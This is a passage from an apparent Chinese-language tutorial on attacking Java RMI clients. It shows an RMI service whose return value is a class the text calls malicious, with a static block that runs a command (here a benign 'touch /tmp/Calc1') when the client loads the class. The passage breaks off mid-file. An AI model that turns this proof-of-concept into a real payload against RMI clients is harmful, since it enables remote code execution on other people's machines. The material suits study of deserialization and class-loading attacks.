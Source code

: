 在这个演示中，服务接口是在 Services.java 定义的。

Services.java

```
package rmi.api;
import java.rmi.RemoteException;
​
public interface Services extends java.rmi.Remote {
    Object sendMessage(String msg) throws RemoteException;
}
```

同一个接口是服务器和客户机应用程序的一部分，充当它们之间通信的契约。

**开发实现类**

远程接口提供了特定远程对象的所有方法的描述，接下来的事情是创建该接口的实现，并提供该接口的所有抽象方法的实现。

ServicesImpl.java

```
package rmi.api.imp;
import rmi.remoteclass.Calc;
import java.rmi.RemoteException;
import rmi.api.Services;
​
public class ServicesImpl implements Services {
    @Override
    public Calc sendMessage(String msg) throws RemoteException {
        return new Calc();
    }
}
```

Calc 类是在 RMI 服务器上定义的恶意类，Calc 对象是 RMI 客户端将调用的 sendMessage 方法的返回值。在 Calc.class 内部，有一个包含任意命令的静态块。当 Calc.class 加载到 RMI 客户机 JVM 中时，静态块将被触发。

Calc.java

```
package rmi.remoteclass;
import java.lang.Runtime;
import java.lang.Process;
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;
import java.io.Serializable;
​
public class Calc implements ObjectFactory, Serializable {
    private static final long serialVersionUID = 4474289574195395731L;
​
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            // it will get executed on the RMI client 
            String[] commands = {"touch", "/tmp/Calc1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
​
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment)  throws Exception {
        try {
```